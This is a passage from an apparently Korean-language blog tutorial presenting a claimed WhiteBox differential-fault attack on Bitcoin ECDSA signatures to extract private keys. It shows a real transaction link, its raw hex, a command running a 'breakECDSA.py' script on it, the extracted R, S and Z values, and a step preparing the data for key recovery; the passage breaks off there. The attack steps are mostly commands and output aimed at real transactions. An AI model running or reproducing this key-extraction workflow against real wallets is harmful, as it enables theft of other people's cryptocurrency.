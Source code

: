<figure class="wp-block-embed"><div class="wp-block-embed__wrapper">
https://btc1.trezor.io/tx/6c857473097543b32702c5f731a3e4c5cb01a1a5ae4bcd1a297b5848acbe8aba
</div></figure>
</blockquote>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-29-1024x135.png" alt="우리는 비밀 키를 추출하기 위해 Eli Biham과 Adi Shamir의 연구 계획에 따라 차등 오류가 있는 Bitcoin에 WhiteBox 공격을 구현합니다." class="wp-image-1609"/></figure>



<pre class="wp-block-code"><code>RawTX = 010000000183635783312a2792b673755da31df935ec22ff9916b4b43b4cefed644cb55a910b0000006b483045022100af4133119bb32776d86b952d7c697f56cc0b12f7053eeb76de8e62d6c9e32f2602200a9394acbcb515f16df5d2f94b970b3d9da0c91a7d372d62794f2234b40cd562012102ae4a7601c546fef42deb70516d41645dc58613689754936efdd4850e186d8320ffffffff014e020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000
</code></pre>



<h2>이제 모든 취약한 트랜잭션에서 모든 R, S, Z 값을 가져와야 합니다.</h2>



<p>breakECDSA.py 스크립트를 사용해봅시다.</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 010000000183635783312a2792b673755da31df935ec22ff9916b4b43b4cefed644cb55a910b0000006b483045022100af4133119bb32776d86b952d7c697f56cc0b12f7053eeb76de8e62d6c9e32f2602200a9394acbcb515f16df5d2f94b970b3d9da0c91a7d372d62794f2234b40cd562012102ae4a7601c546fef42deb70516d41645dc58613689754936efdd4850e186d8320ffffffff014e020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000
</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-30-1024x287.png" alt="우리는 비밀 키를 추출하기 위해 Eli Biham과 Adi Shamir의 연구 계획에 따라 차등 오류가 있는 Bitcoin에 WhiteBox 공격을 구현합니다." class="wp-image-1611"/></figure>



<pre class="wp-block-code"><code>R = 0xaf4133119bb32776d86b952d7c697f56cc0b12f7053eeb76de8e62d6c9e32f26
S = 0x0a9394acbcb515f16df5d2f94b970b3d9da0c91a7d372d62794f2234b40cd562
Z = 0xf3c7d4c7371a2c57be6b3eb6c446128a3a2cefdb593e6577750c95d22cd8309c</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>취약한 ECDSA 서명 트랜잭션에서 비밀 키를 얻기 위해 데이터를&nbsp;<code>RawTX</code>텍스트 문서에 추가하고 파일로 저장해 봅시다.<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>010000000183635783312a2792b673755da31df935ec22ff9916b4b43b4cefed644cb55a910b0000006b483045022100af4133119bb32776d86b952d7c697f56cc0b12f7053eeb76de8e62d6c9e32f2602200a9394acbcb515f16df5d2f94b970b3d9da0c91a7d372d62794f2234b40cd562012102ae4a7601c546fef42deb70516d41645dc58613689754936efdd4850e186d8320ffffffff014e020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000</code></pre>

